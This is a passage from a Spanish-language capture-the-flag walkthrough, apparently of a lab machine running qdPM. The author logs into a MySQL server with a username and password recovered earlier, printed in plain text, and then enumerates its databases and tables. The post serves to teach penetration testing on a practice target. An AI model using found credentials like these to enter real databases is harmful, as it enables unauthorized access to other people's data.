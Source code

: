 ```bash
  11   │         quote_identifier: true  
  12   │   
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Como las credenciales son para una base de datos pues nos vamos a conectar a ella ya que el puerto esta abierto 

Y funcionan

`qdpmadmin:UcVQCMQk2STVeS6J`

```bash
❯ mysql -uqdpmadmin -h 192.168.100.31 -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 93
Server version: 8.0.26 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 
```

Vamos a ver las bases de datos

```bash
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| qdpm               |
| staff              |
| sys                |
+--------------------+
6 rows in set (0.037 sec)
MySQL [(none)]> 
```

Vamos a usar la base de datos `qdpm` y vamos a enumerar sus tablas

```bash
MySQL [(none)]> use qdpm;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [qdpm]> show tables;
+----------------------+
| Tables_in_qdpm       |
+----------------------+
| attachments          |
| configuration        |
| departments          |
| discussions          |
| discussions_comments |
| discussions_reports  |
| discussions_status   |
| events               |
| extra_fields         |
| extra_fields_list    |
| phases               |
```